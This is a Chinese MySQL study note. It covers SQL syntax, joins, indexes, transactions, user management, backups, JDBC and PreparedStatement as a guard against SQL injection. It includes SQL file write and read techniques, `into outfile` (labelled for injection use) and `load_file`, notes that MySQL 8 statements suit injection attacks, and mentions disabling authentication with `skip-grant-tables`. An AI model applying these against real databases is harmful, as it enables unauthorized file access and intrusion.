


该笔记于2022.02.10重写MySQL语法部分
重制MySQL语法部分参考b站狂神说
注入攻击部分参考先知社区注入总结
MySQL概述
网站被分为前端、后端和数据三个部分
数据库——SQL仅仅负责数据的存储
我们现在学习的MySQL、MongoBD、SQL Server, 均是DBMS(数据库管理系统）
MySQL是WEB应用中目前最好的RDBMS(关系型数据库管理系统)
- 数据库（DB），是长期储存在计算机内的、有组织的、可共享的数据集合。
- 数据库管理系统（DBMS）是位于应用程序与存储数据的之间的一层数据管理软件，保证我们可以科学的组织和存储数据。
实际开发并不是单一的使用关系型或者单一的使用非关系型数据库
而是根据具体的功能业务，明确有序的将关系型和非关系型数据库混合使用
关系型和非关系型在开发中的关系，好似一个太极
MySQL语句划分
Mysql数据库的所以语句被分为四大类，分别是：
DDL : 数据库定义语句
DML : 数据库操作语句
DQL：数据库查询语句
DCL：数据库控制语句
其中操作核心为CURD（增删改查），可以说后端开发的本质，就是如何增删改查以及如更好的增删改查
MySQL基础语句
命令行连接数据库
设置环境变量后直接终端输入mysql 格式：mysql -u [用户名] -p [密码] 或：mysql -u [用户名] -p （回车）
常用操作命令
- SHOW CREATE DATABASE [ 库名 ] ： 查看创建该数据库的语句
- SHOW TABLE [ 表名 ] ： 查看创建该表的语句
- DESCRIBE [ 表名 ] ：查看该表的详细信息并显示具体结构
操作数据库
查看所有数据库
SHOW databases; [ 关键词 SHOW ]
使用数据库
USE [ 库名 ] ; [ 关键词 USE ]
创建数据库
CREATE DATABASE [可选 : IF NOT EXISTS (判断是否存在，防止报错)] [库名] [可选 ： 如下 ]; [ 关键词 CREATE ]
- 编码格式 等
character set utf8设置编码格式为utf-8collate 字符集设置数据库的校对字符集
删除数据库
DROP DATABASE [ 可选 : IF EXISTS (判断是否存在，防止报错)] [ 库名 ] ; [ 关键词 DROP DATABASE]
操作表
MySQL建表时列的数据类型划分
数值
字符串
时间格式
null 空值
MySQL的字段属性
Unsigned : 无符号的整数 —— 选择后该列不能有负数
zerofill : 填充0 —— 选择后不足最大位数的数将用0 填充（最大3位，那么5就是005）
自增约束 AUTO_INCREMENT：自动在上一行的基础上加 1（1 位默认值，可改），一般用处确立唯一主键，必须是整型
非空约束 NO NULL： 如何不赋值就报错
主键约束 PRIMARY KEY ：设置唯一主键
联合主键 ： 同时定义多个主键，语法 PRIMARY KEY(字段1, 字段2) [ 主键一般一个表只有一个，所以用不到联合 ]
唯一约束 UNIQUE : 设置唯一约束的字段中数据不能重复
default : 默认值，只要不填写就为默认值
COMMENT ： 添加注释，语法 ：COMMENT “这是一个注释”
注意：
MySQL 表相关语句
显示所有表
SHOW TABLES; #注意，要先使用USE确定数据库
创建表
CREATE table [ 可选: IF NOT EXISTS (判断是否存在)] [ 表名 ] [ 其他可选属性 ]
(
[第一列列名] [数据类型(长度\值)] [ 字段属性 ] [ 索引 ] [注释], 具体见上面的字段属性
[第二列列名] [数据类型(长度\值)] [ 字段属性 ] [ 索引 ] [注释],
........
[第n列列名] [数据类型(长度\值)] [ 字段属性 ] [ 索引 ] [注释],
[可选： 联合约束在最后设置，例如联合主键、联合唯一]
) [可选：设置其他选项，常用如下];
- ENGINE : 设置引擎 例如 ENGINE=INNODB
- DEFAULT CHARSE : 设置编码格式 例如 DEFAULT CHARSET=utf8
- COMMENT ： 注释，表注释和列注释都用这个选项，但格式不同 例如 COMMENT=”这是表注释”

删除表
DROP TABLE [ 可选 : IF EXISTS (判断是否存在) ] [ 表名 ] ;
修改表的属性
ALTER TABLE [ 表名 ] [ 具体操作 ：如下] ;
- 添加属性 ： add [ 属性名 ] —— 例如： add primary key(id) #设置id字段为主键
- 删除属性：drop [ 属性名 ] —— 例如 ： drop age #删除字段age
- 重命名：**[ 旧表名 ] RENAME AS [ 新表名 ]**
- 修改字段属性与约束： MODIFY
- 修改字段名：CHANGE
注：重命名可以直接用rename实现
RENAME database|table|column `[ 旧名称 ]` to `[ 新名称 ]`用rename to 关键字可以实现所有重命名
操作数据【重点 】
增删改查为DML语句
增加
INSERT INTO … VALUES … 向指定字段插入数据
语法: INSERT INTO `表名`(`字段1`,`字段2`,`字段3`) VLALUES(‘值1’,’值2’,’值3’),(‘值1’,’值2’,’值3’)….;
INSERT INTO `ceshi`(`id`,`username`)
VALUES('2','2'),('3','3');
/*
* 1、INTO 后的字段要和VALUES后的值一一对应
* 2、insert 插入语句支持一次插入多行数据，只需写成 VALUES( 第一行 ),( 第二行 )...的形式
*/
删除
DELETE … FROM … WHERE … 删除指定数据
语法：DELETE FROM `表名` WHERE 条件;
DELETE FROM `ceshi` WHERE `id` = 2;
/*
* 如果不想一个失手清空整张表，请切记加上 WHERE 子句进行条件判断
*/
WHERE 子句
WHERE 子句非常常用，一般用于条件判断确定数据位置
WHERE 子句可加运算符
上图还差异或运算，即
^，左右两值不相同返回1（ 1 ^ 2）, 相同返回0 （ 1 ^ 1）
TRUNCATE … 清空整表中所有数据并重置表（可以理解为格式化）
语法：TRUNCATE `表名`
TRUNCATE `ceshi`;
- DELETE 清空整张表不会重置 （ 不会使主键的自增归0 ）
- TRUNCATE 清空表会重置 （ 主键自增归0 ）
修改
UPDATE … SET … WHERE
语法：UPDATE `表名` SET `字段1`=’值1’, `字段2`=’值2’… WHERE `参考字段1`=’参考值1’ [ 操作符 `参考字段2`=’值2’ ];
UPDATE `ceshi` SET `username`=1 WHERE `id` = 2;
/*
* 如果不想一个失手改掉整张表，请切记加上 WHERE 子句进行条件判断
* WHERE 子句用法同删除
*/
文件读写
数据库查询语句 ( 重点 )
SELECT … FROM … … 查询
先上个完整的语法
指定表和字段的基础查询
语法：*SELECT [字段名 | ] from [库名.]表名
对应完整语法图WHERE之前的部分
SELECT * FROM `ceshi`; -- 查询表ceshi的所有数据
SELECT `id`,`username` FROM `ceshi`; -- 只查询ceshi表的id和username两个字段
SELECT `id` FROM `ceshi`; -- 只查询id字段
SELECT DISTINCT `id` FROM `ceshi`; -- 只查询id字段并去除重复
/*
* DISTINCT 去重，重复数据只输出一次，如果查询多个字段，则会按重复数据排序
*/

Where 子句
语法： SELECT … FROM … WHERE [ 条件判断 ];
where子句的本质实际就是给查询添加一些“约束”或者说“条件”，让结果可以更加接近我们的预期数据
where 子句最终一定返回一个布尔值
用逻辑运算符处理的布尔判断
| 运算符 | 举例 | 结果 |
|---|---|---|
| AND 符号： && | WHERE id=1 AND username=1 | 左右都成立为真，否则假 |
| OR 符号： || | WHERE id=1 || id=2 | 左右有一个成立即为真 |
| NOT 符号：！ | WHERE NOT id=1 | 条件不成立即为真 |
| BETWEEN … AND … | WHERE id BETWEEN a AND b | 返回id在a到b之间的所有数据 |
最简单的WHERE子句运用
select * from `ceshi` where id=1 && id=2; -- 返回id=1并且id=2的结果（注意这么写不会有结果）
select * from `ceshi` where id=1 || id=2; -- 返回id=1或者id=2的结果（or 只返回成立的第一条数据）
select * from `ceshi` where id BETWEEN 1 AND 9; -- 返回id=在1-9的所有结果
模糊查询：比较运算符
不想画表格所以直接贴图
模糊查询的本质就是“没有明确规定值的条件判断”
在简单说 a=1 是精确查询 ， 那么 a > 1 就是模糊查询了
大于小于我想应该是没提的必要
SELECT * FROM `ceshi` WHERE id IS NULL; -- 如果id为空则返回真
SELECT * FROM `ceshi` WHERE id IS NOT NULL; -- 如果id不为空则返回真
SELECT * FROM `ceshi` WHERE id=1 AND id IS NOT NULL; -- 如果id=1且不为空则返回真
SELECT * FROM `ceshi` WHERE 1 BETWEEN 0 AND 2; -- 如果 1 在 0-2 内返回真

SELECT * FROM `ceshi` WHERE 1 in (1,2,3,4); -- 如果1 在区间1，2，3，4中返回真
SELECT * FROM `ceshi` WHERE id in (1,2,3); -- 返回id=1、2、3的结果
SELECT * FROM `ceshi` WHERE 1 like 1; -- 可以简单的理解为 a = b 为真
SELECT * FROM `ceshi` WHERE id like '1%'; -- 返回字段id中以1开头的所有数据
SELECT * FROM `ceshi` WHERE id like 1_; -- 只返回以1 开头，并且后面有一个任意字符的数据
/*
* 类似正则表达式，% 代表任意字符，_ 代表一个任意字符
* 只有like可以用通配符，in后只能为具体的值
*/
联表查询： JOIN语句
联表查询（联合查询）本质上其实只有左（LEFT）中（INNER）右(RIGHT)三种
但根据查询的区间不同，JOIN最终被扩展为七种
文字描述即为：左、中、右、左中、右中、左右、左中右 ，共七种
图片则如下：

注意：JOIN联表只是如上图所示的“以谁为主”，并不是指要蓝色部分
由于使用WHERE子句和ON子句在左右连接时会有不同的结果，所以这部分知识需要先了解WHERE和ON的不同
具体下面细说
事实上我们常用的联表方式只有四种，用左中右来描述，即为：==中(inner)、左中(left)、右中(right)、左中右(union)==
用实际的名称来描述，即内连接(中)、外连接(左 | 右 外连接)、全连接(左中右)
WHERE子句与ON子句
WHERE子句与ON子句的用法没有任意的区别，两者几乎一致，所以也没有必要分开了解两者
唯一的区别是在联表查询中，作用的位置(时间)不同
- ON 子句作用于临时表(虚拟表)生成之前
- WHERE 子句作用于临时表(虚拟表)生成之后
联表查询的本质是数据库先将要联合A表和B表合为一个临时表（虚拟表）C表
ON子句在临时表建立的同时执行、而WHERE子句在建立完成后执行
交叉连接： cross join
又名笛卡尔积，交叉积，还有最奇怪的名字“没有连接”（no join）
可以简写成逗号
交叉连接结果是两个表的笛卡尔积，或者说就叉乘
表之间使用逗号或cross join连接
select * from users,emails;
如图所示，交叉连接以笛卡尔积的形式将两个表连接到了一起
但这显然不是我们想要的结果
为了让数据对应并且不发生重复，需要Where子句
select * from users,emails
where users.id = emails.id;
加入where限定条件后，得到的数据明显符合要求
这里有个小规律，自然连接配合where语句时，如果想要得到合适的内容
两表相连需要一个条件，三表相连需要两个条件，四表相连需要三个条件…..
如此做，才能保证查到的数据符合要求
id列重复，限定一下列
select users.id,username,password,email_id from users,emails
where users.id = emails.id;
当两个表有名称相同的列时，可以通过[表名.列名]的形式限定输出的列
内连接: inner join
内连接即左中右中的中，可以简写为join
-- 语法：
select ... from 表A
inner join 表B
-- join是 inner join 的缩写
-- 例如：
select * from users
inner join emails
on users.id = emails.id;
外连接: outer join

mysql不支持单纯的外连接
outer join，只能使用左右外连接
外连接可分左外和右外，包括左、右、左中、右中，存不存在中由where子句绝对
-- 左外
select ... from 表A
left join 表B
on 条件;
-- left join是left outer join的缩写
-- 例如
select * from users
left join emails
on users.id = emails.id;
外连接必须以on子句规定条件
左外以左侧为准，就是说左侧id显示全部，右侧匹配左侧，找不到则为NULL
-- 右外
select ... from 表A
right join 表B
on 条件;
-- right join是 right outer join的缩写
-- 例如：
select * from users
right join emails
on users.id = emails.id;
从左外例子可知users的id有15个，但右外以右表为主，emails的id只有8个，所以只显示8个id
自然连接 ：natural join
自然连接和内连接结果相同，但是自然连接会自动匹配两个表中列名相同的列
就是说，如果两表中存在相同的列名，那么我们无需再写where或on子句
select ... from 表A
natural join 表B;
-- 例如
select * from users natural join emails;
如果自然连接自动匹配了id字段，并只留下了两表中的一个id字段
using子句
USING的功能相当于ON，区别在于USING指定⼀个属性名⽤于连接两个表，⽽ON指定⼀个条件。
另外，SELECT *时，USING会去除USING指定的列，⽽ON不会。
-- 语法
select ... from 表A
... join 表B using(字段名);
-- 例子
select * from users join emails using(id);
如图，using子句取代了on子句和where子句的作用，指定了⼀个字段名连接两个表
Having子句
Having和where、on一样，都是用于限定查询条件
不同的是on在虚表建立之前执行，where在虚表建立之后执行，having在虚表聚合之后执行
交并补
数据库的联表、交并补的操作，本质都是在扩展或缩小查询所得的列
文件读写
写文件
into outfile
格式：select “hello world” into outfile “[文件名/绝对路径或相对路径分情况使用]”;
全新版本（注入写入）：select * from users into outfile “[路径+文件名]” lines terminated by “[字符串1]”;
//意为users表中每一行数据都以字符串一结尾。
读文件
load_file
格式：select load_file “[要读取的文件]”;
写入绝对路径时’/‘容易被作为转义符，所以通常需用到’//‘
MySQL基础拔高
学会上面基本的语句就可以使用数据库去写一些基本的东西，不过学习不学原理相当于白学，所以我把更进阶的东西放到了下面
MySQL数据库引擎
目前常用的数据库引擎是INNODB和MYISAM
- INNODB : 较新的数据库引擎，是现在5.7版本以上的默认引擎
- MYISAM：早期的数据库引擎，5.7以下普遍使用
两者区别大致如下：
MYISAM 占用空间小，速度快
INNODB 安全性高，支持事务操作，可以多表多用户操作
数据库在物理空间的位置
MySQL的所有数据库，都在其根目录的data文件夹中，其中 库 = 文件夹
INNODB和MYISAM两个数据库引擎对应数据库的物理文件并不相同
MYISAM
表由库中文件共同组成，每个表都对应三个后缀名分别为 .MYD .MYI .frm 的文件
- .frm 表结构定义文件
- .MYD 数据文件
- .MYI 索引文件
INNODB
只由两种文件组成，.frm文件和上级目录的ipdata文件
- .frm 数据表文件
- ibdata 系统文件
- .ibd 只是相当于一个备份
外键
这里的外键指MySQL数据库级别的物理外键，开发中基本不会去使用，也不建议使用，但还是需要了解
外键的功能应交由程序（后端）实现
阿里开发规定：不得使用外键和级联，一切外键概念必须在应用层解决
注意: MYISAM引擎不支持数据库级别外键约束
建表时对外键的定义
CREATE TABLE IF NOT EXISTS `study` (
`id` int(3) NOT NULL AUTO_INCREMENT COMMENT '主键id',
`age` int(3) NOT NULL COMMENT '年龄',
`name` varchar(30) NOT NULL COMMENT '性名',
PRIMARY KEY(`id`), -- 设置字段id为主键
KEY `FK_age` (`age`), -- 声明一个约束，名为FK_age，指向本表的age字段，此时age为一个没有引用的外键
CONSTRAINT `FK_age` FOREIGN KEY (`age`) REFERENCES `ceshi`(`id`) -- 使外键FK_age引用ceshi表的id字段
/*CONSTRAINT: 约束 | FOREIGN KEY: 外键 | REFERENCES: 引用
* 声明为外键的列和被外键引用的列数据类型必须一致
* FK_列名 的命名是定义外键的默认规范
*/
) ENGINE=INNODB DEFAULT CHARSET=utf8;
建表后对外键的添加
如果一定要添加外键，推荐使用这种方式
-- 建表后添加外键，只需使用ALTER ADD 语句即可
ALTER TABLE `study`
ADD CONSTRAINT `FK_id` FOREIGN KEY (`id`) REFERENCES `ceshi`(`id`);
注意：
如果定义了外键约束，删除表时需要先删所有 引用该表的表 | 指向该表的外键 ，然后删除其本身，否则报错
如果A表引用B的同时B表引用A,会形成闭环，只能先删外键再删表
所以不建议使用数据库级别的物理外键
事务
开启事务
set autocommit = 0; -- 关闭自动提交
start transaction -- 开启事务
【语句块】
commit; -- 提交事务
rollback; -- 回滚
set autocommit = 1; -- 开启自动提交
事务一旦提交就会被持久化，不可再回滚
savepoint [保存点名] 可以设置一个保存点
rollback to savepoint [保存点名] 回滚到设置的保存点
release savepoint [保存点名] 撤销对应的保存点
索引 / 约束
索引又称约束，在少量数据处理时作用不大，大量数据处理时作用十分明显
关于索引部分可以看这篇文章：MySQL索引背后的数据结构及算法原理
本人对这部分纯菜鸟，只记录自己的笔记
索引是帮助Mysql高效获取数据的数据结构
索引的简单分类
主键索引：primary key
- 唯一标识一条数据，主键不可重复，可以自增
- 主键索引只能有一个，但可以是多个列
唯一索引：unique key
- 唯一索引值在一列中，不能出现两个及以上相同的值，即某一值在设置了唯一索引的列中是唯一的
索引 / 常规索引：key / index
- 最基本的索引，它没有任何限制。
- 可以理解为是一个自定义名称的默认索引
- 使用index关键字定义
全文索引：FullText
- 用于快速定位一条数据，很少用，是MySQL专门提供用作搜索引擎的
查看索引信息
show index from 表名

查看索引信息结果的字段解释：
Table: 查看的表名
Non_unique: 如果索引不能包括重复词，则为0。如果可以，则为1。
Key_name: 索引名
Seq_in_index: 索引中的列序列号，从1开始。
Column_name: 索引所在的列名
Collation: 列以什么方式存储在索引中。在MySQL中，有值‘A’（升序）或NULL（无分类）。
Cardinality: 索引中唯一值的数目的估计值
Sub_part: 如果列只是被部分地编入索引，则为被编入索引的字符的数目。如果整列被编入索引，则为NULL。
Packed: 指示关键字如何被压缩。如果没有被压缩，则为NULL。
Null: 如果列含有NULL，则含有YES。如果没有，则该列含有NO。
Index_type: 该索引底层的数据结构（BTree一般指B+树结构）
Comment: 注释
index_comment: 索引注释
Explain语句
explain语句主要用于分析sql语句的性能，一般和索引一起使用
语法:
explain [具体sql语句];
-- 例如：
explain select * from users where id = 1;

结果字段解释：
id: 只是id
select_type: 查询类型，具体如下表

type：表示搜索方式（索引）的好坏
从高到低依次是
system:
表中只有一行数据或者是空表。
const:
使用唯一索引或者主键，返回记录一定是一条的等值where条件时，通常type是const。
eq_ref:
连接字段为主键或者唯一索引，此类型通常出现于多表的join查询，表示对于前表的每一个结果，都对应后表的唯一一条结果。并且查询的比较是=操作，查询效率比较高。
ref:
非主键或者唯一键的等值查询
join连接字段是非主键或者唯一键
最左前缀索引匹配
full_text:
全文检索索引。
ref_or_null:
和ref类似，增加了null值判断
unique_subquery、index_subquery:
都是子查询，前者返回唯一值，后者返回可能有重复。
range:
索引范围扫描，常用于 ><,is null,between,in,like等
index_merge(索引合并):
表示查询使用了两个或者以上的索引数量，常见于and或者or查询匹配上了多个不同索引的字段
index(辅助索引):
减少回表次数,因为要查询的索引都在一颗索引树上
all: 全表扫描
除了 All 以外，其它的类型都可以用到索引，除了index_merge可以使用多个索引之外，其它的类型最多只能使用到一个索引。
注意！！最少也应该要使用索引到range级别！
key_len:
用于处理查询的索引长度，如果是单列索引，那么整个索引长度都会计算进去，如果是多列索引，那么查询不一定能使用到所有的列，具体使用了多少个列的索引，这里就会计算进去，没有使用到的索引，不会计算进去。
rows: 估算的扫描行数，不是精确值（innodb不是精确值，myisam是精确值，主要是因为innodb使用了mvcc）。
其他的看MySQL EXPLAIN 详解,解释的比较详细
Mysql编程 / 定义函数
-- 实在懒得解释，和编程语法基本一样，随便看看吧
delimiter $$ -- 修改结束符为$$
create function fun() -- 创建一个函数，函数名为fun
return int -- 返回一个int类型
begin -- begin ... end; 语句块，begin表示开始
declare age int default 8;
declare i int default 0;
while i < age do
set i = i + 1;
select id from users;
end while;
return i;
end$$
delimiter ; -- 改回结束符
select funes();
大概就是上面的意思，不过这个例子是会报错的
Mysql用户管理 / 权限管理
sql用户/权限管理一般用不到，用到也是可视化的操作
但是管理用户的命令需要学习，在自己搭建sql环境时用的到，不至于一个无密码登录问题对着网上的教程改半天
Mysql的安装很简单，Windows系统按官网的来，Linux系统直接安装mysql-server（这里用的ubuntu）
但安装之后会遇到一些问题，有随机密码或者让输入密码都算可以的，我用的Ubuntu系统每次安装完都是无密码登录
无密码登录原因
其实非常简单
首先使用root登录mysql，可以忽略用户名，比如这样：

其次Ubuntu安装mysql，root用户的密码默认为空

所以初次安装的无密码登录问题本质上只是没密码而已，设置个密码就行
设置好密码还是可以无密码登录才是真的有问题，只能具体问题具体解决
配置真正的 无需验证的无密码登录需要在mysql配置文件中写入skip-grant-tables

初次安装产生的无密码登录问题的完美解决办法
Ubuntu系统安装mysql后默认可以无密码登录，需要对其进行初始化
步奏很简单，八字真言：改密、刷新、退出、重启
root用户比较特殊，要使用root@localhost做为用户名

注：mysql5.7版本passowrd()还能使用，set password for root@localhost = password("密码");同样可以达成初始化的目的
还有一个更好的办法：运行mysql_secure_installation[mysql安全设置命令]
根据提示输入以下选项即可

一般来说使用安全配置命令mysql_secure_installation就可以完美完成初始化
唯一例外的情况是有点mysql版本修改了更新密码命令但是mysql_secure_installation脚本仍然使用原来的命令
就会导致mysql_secure_installation失效，此时才需要使用八字真言手动初始化。
参考文章：MySQL Server Installed without Password for Root on Ubuntu 17.10 / 18.04
用户管理命令
mysql用户的所有信息都在mysql.user表中，其中密码字段由password已经改为authentication_string
创建用户
create user 用户名 identified by "密码";
create user Atmujie identified by 'atmujie';

修改密码
修改当前用户密码
set password = password("新密码");

修改指定用户密码
set password for 用户名 = password("新密码");

重命名用户
rename user 用户名 to 新用户名;

查询用户权限
show grants for 用户名;

数据库备份
吐槽几句
数据库备份还是挺重要的，别看平时用不上，等学到docker建环境就成了学的不全=啥都不会
说学个基础就行的我也不知道咋想的，像我去年一样没事增删改查有事询问百度？
然后一个简单的问题百度大半天
又不是为了完成任务，刀都没磨好砍的什么柴
数据库备份有三种方式
直接复制物理文件(不推荐)
mysql的数据文件全在data文件夹中，把data定期复制下来，出问题直接覆盖，不失为是一种备份的方法，但感觉这样做有点憨
可视化导出/导入
各大可视化软件都提供了导出的办法，这也是最没技术含量的办法，缺点是Linux系统不能可视化，只能在Windows系统里这么做
命令行导入/导出
必须掌握的方式，无论是在linux系统操作数据库，还是写docker搭建环境，都用的到
导出：
mysqldump -h localhost -u root -p xxx 数据库名 表1名 表2名 ... > 保存位置 例如： mysqldump -u root -p mysql user > ./1.sql -h 可以省略 -p 默认为隐藏的输入模式 导出是在命令行完成的
导入：
source xx.sql 导入是在mysql中完成的
三大范式
三大范式只是规范，实际开发视情况而定。就好比网络协议规范是ISO七层实际用的是TCP五层一样
在规范和性能之前，是一个取舍的问题，是在性能最优的前提下去贴合规范
参考文章：三大范式
第一范式（1NF）
字段不可分【原子性】
借别人的例子解释

这张表中家庭信息和学校信息可以再分，所以不符合第一范式
修改为：

此时每个字段都不可再分，符合第一范式
第二范式（2NF）
第二范式的前提是满足第一范式
第二范式就是让每张表都只描述一件事情
借参考文章的图一用：

订单和产品是两件事，所以按照第二范式，应该分成两张表
第三范式（3NF）
第三范式在一二范式的基础上，要求表中每一个字段都和主键直接相关

第一张表中主键是学号，但学生的学号显然和班主任无关，所以需要拆成两个表
JAVA连接数据库
JDBC
JDBC是用来连接JAVA程序和数据库的驱动
实质是在各个数据库系统和应用程序中加了一层架构

JDBC驱动
JDBC是JAVA为了规范化各种连接推出的，程序员只需学习JDBC API去实现程序，由各大数据库厂商推出自己的驱动程序和JDBC连接
在JAVA层面，JDBC只用了两个包java.sql,javax.sql，这两个包java内置
在数据库层面，还需要根据具体数据库，导入一个数据库厂商提供的驱动包
mysql的驱动包是: mysql-connector-java-[version]-bin.jar
所以只需要导入一个数据库驱动包就可以使用JDBC连接数据库
使用JDBC连接数据库
JDBC连接数据库和可视化连接大致一样
首先加载驱动
然后连接数据库
接着创建一个可以对sql进行操作的对象
执行sql代码
最后关闭所有连接释放资源
import java.sql.*;
public class FirstJDBC {
public static void main(String[] args) throws ClassNotFoundException, SQLException {
// 加载mysql驱动
Class.forName("com.mysql.jdbc.Driver");
// 连接数据库
String sqlUrl =
"jdbc:mysql://localhost:3306/security?useSSL=false&useUnicode=true&characterEncoding=utf8";
String user = "root";
String password = "atmujie";
Connection connection = DriverManager.getConnection(sqlUrl, user, password);
// 实例化执行sql的对象
Statement statement = connection.createStatement();
// 执行sql代码，查询得到的结果是一个链表
ResultSet resultSet = statement.executeQuery("select * from users");
while (resultSet.next()){
System.out.printf("id=%d\t",resultSet.getObject("id"));
System.out.printf("id=%s\t",resultSet.getObject("username"));
System.out.printf("id=%s\n",resultSet.getObject("password"));
}
// 关闭连接释放资源
resultSet.close();
statement.close();
connection.close();
}
}
JDBC对象解释
Class.forName("com.mysql.jdbc.Driver");
注册mysql驱动，本该是DriverManager.registerDriver(new com.mysql.jdbc.Driver());
但由于Driver中只有一个匿名的静态方法，所以反射的效率更高

Connection connection = DriverManager.getConnection(sqlUrl, user, password);
连接一个mysql连接，此时connection直接代表数据库，数据库可以做的操作这个对象都可以做，比如设置自动提交、回滚等

Statement statement = connection.createStatement();
Statement对象专注于执行sql的增删改查语句
statement.executeQuery(); // 执行一个查询语句，返回结果集（链表）
statement.executeUpdate(); // 执行一个更新（增删改）语句，返回受影响的行数
statement.execute(); // 执行一个任意sql语句，因为多了一步判断，所以效率较低
除了Statement对象，prepareStatement对象也可以执行sql
ResultSet resultSet = statement.executeQuery("select * from users");
查询返回的结果集是一个链表，链表怎么用这个结果集就怎么用
PreparedStatement对象
Statement对象虽然可以执行sql语句，但是它是不安全的，可能产生sql注入问题
所以为了避免出现sql注入，应该使用PreparedStatement对象向数据库发送sql语句
PreparedStatement防止sql注入的原理非常简单：
先写一个sql语句，需要传参的位置一律写?
通过PreparedStatement对象发送至数据库但是不执行
之后再填入参数【此时填入的参数一律是定义好的类型，不可能再当作代码被执行】
最后执行sql语句，就达到了防止sql注入的目的
这个过程称为sql预编译
public class PreparedStatementJDBC {
private static String sqlUrl = null;
private static String user = null;
private static String password = null;
private static String driver = null;
private static Connection connection = null;
private static PreparedStatement preparedStatement = null;
static {
try {
// 从配置文件拿到mysql驱动以及连接信息
InputStream in = PreparedStatementJDBC.class.getClassLoader().getResourceAsStream("per/db.properties");
Properties properties = new Properties();
properties.load(in);
driver = properties.getProperty("driver");
sqlUrl = properties.getProperty("sqlUrl");
user = properties.getProperty("user");
password = properties.getProperty("password");
} catch (IOException e) {
e.printStackTrace();
}
}
public static void main(String[] args) throws SQLException {
// 获取数据库连接
connection = DriverManager.getConnection(sqlUrl,user,password);
// 定义sql语句，需要传参的位置使用?占位
String sql = "select * from users where id=?";
// 先发送语句但是不执行
preparedStatement = connection.prepareStatement(sql);
// 在预编译的位置填入参数
preparedStatement.setInt(1,1);
// 执行语句
ResultSet resultSet = preparedStatement.executeQuery();
while (resultSet.next()){
System.out.println(resultSet.getString("username"));
System.out.println(resultSet.getString("password"));
}
}
}
JDBC操作事务
通过connect对象关闭自动提交【又称开启事务】即可
import java.sql.Connection;
import java.sql.SQLException;
public class JDBC事务 {
public static void main(String[] args) {
UtilsJDBC utilsJDBC = new UtilsJDBC();
Connection connection = utilsJDBC.getConnection();
try {
// 关闭自动提交【开启事务】
connection.setAutoCommit(false);
/*.....*/
connection.commit();
} catch (SQLException throwables) {
throwables.printStackTrace();
}
}
}
JDBC连接池
开启数据库连接->处理sql->关闭连接，这个过程非常消耗资源
所以可以使用池化技术处理，让一部分资源总是处于开启连接的状态，并且执行sql后不关闭
从而节约开启和关闭时消耗的资源
通过实现java.sql包下的DataSource接口实现，又称数据源
现成的数据源有：DBCP，C3P0，Druid（阿里巴巴）
可以直接使用开源数据源实现连接池
【需要导入相应的包】
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
以下内容过于庞杂，所有知识点也有提及，没有如上面语法部分一样重制
MYSQL:8.0.19新特性
MYSQL8安装
phpstudy集成环境最高到mysql:8.0.12，而mysql:8.0.12并没有新增我们需要的新特性
安装方法
- windows 系统：官网下载安装包到本地，配置环境变量，初始化
- linux 系统，同样官网安装
- docker ： docker pull mysql:8.0.19
这里我推荐使用docker 安装mysql:8.0.19
安装步骤
安装镜像：
sudo docker pull mysql:8.0.19
docker run 容器:
sudo docker run --name="mysql8" -p 3360:3306 -v /my/data/mysql8/:/var/lib/mysql/ -e MYSQL_ROOT_POSSWORD=root mysql:8.0.19
卷挂载路径：
/var/lib/mysql/ 数据存储目录
/etc/mysql/ mysql配置目录
/var/log/ 日志存储目录
卷的具体挂载可自行选择
启动容器
sudo docker start mysql8
进入容器
sudo docker exec -it mysql8 /bin/bash
进入mysql8
mysql -u root -p
root
安装完成
语句新增
table语句
查询语句
table [表名]；
同之前版本的select * from 【表名】; 都可以显示表的全部信息

支持语法：
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]] #该语句支持使用order by 和limit 语句进行查询order by

limit 1,2
values语句
官方语法：
VALUES row_constructor_list [ORDER BY column_designator] [LIMIT BY number]row_constructor_list:ROW(value_list)[, ROW(value_list)][, ...]value_list:value[, value][, ...]column_designator:column_index
解析：
values row()语句：
values row(1,2,3);构造一个虚拟表，值为1，2，3 row译为行
这个语句可以构造多行数据
values row(1,2,3),row(4,5,6),row("a","b","c");
vlaues row()语句可接入多种语句中执行
values row("a") union select * from mujie;
或者：
values row("a") union select * from mujie where id=1 and 1^2;select `3` from (select 3 union values row("a"))a;总的来说 values row() 语句就是提供了类似select 1,2,3 的功能，当使用values语句可以一次定义更多的虚拟数据
除了构建虚拟表，values row()语句还可以快速创建真实的表
values row()语句定义列名，需配合select 使用
select * from (values row(1,2,3)) as xxx(id,username,password);
配合create table 语句
create table users select * from (values row(1,2,3)) as xxx(id,username,password);定义表的类型
create table userss (id int,username char,password char) select * from (values row(1,2,3)) as xxx(id,username,password);以上就是mysql8在命令部分的新特性，可用于注入攻击
注入部分
select * from 命令控制语句
联合查询
